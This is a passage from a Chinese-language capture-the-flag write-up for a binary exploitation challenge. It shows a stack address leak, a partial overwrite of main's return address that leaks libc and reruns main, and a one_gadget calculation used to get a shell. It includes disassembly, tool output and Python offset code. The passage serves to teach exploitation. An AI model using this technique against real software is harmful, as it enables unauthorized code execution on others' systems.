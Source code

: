 先前被改写的栈地址，在之后的  `write(1, &v5[8 * HIDWORD(v2)], 6uLL);`中又被泄漏出来

这里可以选择`readi()`读`3`泄漏程序的基址，也可以选择`readi()`读`5`泄漏`libc`的基址

泄漏程序基址似乎没啥用

虽然开了随机化保护，但是`libc`函数的后三位是不变的

于是可以覆盖`main`的返回地址`__libc_start_main+235`的末两位

#### 0x3 漏洞利用

题目给了`libc`，看一下`__libc_start_main`，其中`0x00020830`是`__libc_start_main+235`

```assembly
0x00020808      488d442420     lea rax, [rsp + 0x20]
0x0002080d      644889042500.  mov qword fs:[0x300], rax
0x00020816      488b059b363a.  mov rax, qword [reloc.__environ_184]
0x0002081d      488b742408     mov rsi, qword [rsp + 8]
0x00020822      8b7c2414       mov edi, dword [rsp + 0x14]
0x00020826      488b10         mov rdx, qword [rax]
0x00020829      488b442418     mov rax, qword [rsp + 0x18]
0x0002082e      ffd0           call rax
0x00020830      89c7           mov edi, eax
```

这题的关键是，想要完成攻击，修改栈地址的漏洞至少要利用__两次__：泄漏`libc`一次，`getshell`一次

`__libc_start_main`中`0x0002082e`这里的`call rax`就是`call main`

所以，覆盖`__libc_start_main+235`的末两位为`08`

这样既可以泄漏`__libc_start_main`，又能让程序再执行一遍`main`

泄漏出来`libc`后计算`one_gadget`的地址：

```shell
% one_gadget ./libc-2.23.so                 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL
```

```python
offset_addr = 0x20808
offset_one_gadget = 0x45216
one_gadget = addr - offset_addr + offset_one_gadget
```

```assembly
[*] ret: 0x7f2f53727808
[*] one_gadget: 0x7f2f5374c216
```

在第二次执行`main`时，覆盖返回地址为`one_gadget`即可`getshell`



对了，题目中这里，有提示要再次执行`main()`：

```c
  if ( flag1 == 1 )
  {
    read_n(&e99 + 8 * v3, 8LL);
    puts(aE99p1ant_1);  
    flag1 = 0;
  }
  else
  {
    puts(&byte_15D8);  // 嗯？！世界线……被改变了，我的Reading Steiner触发了！
  }
```
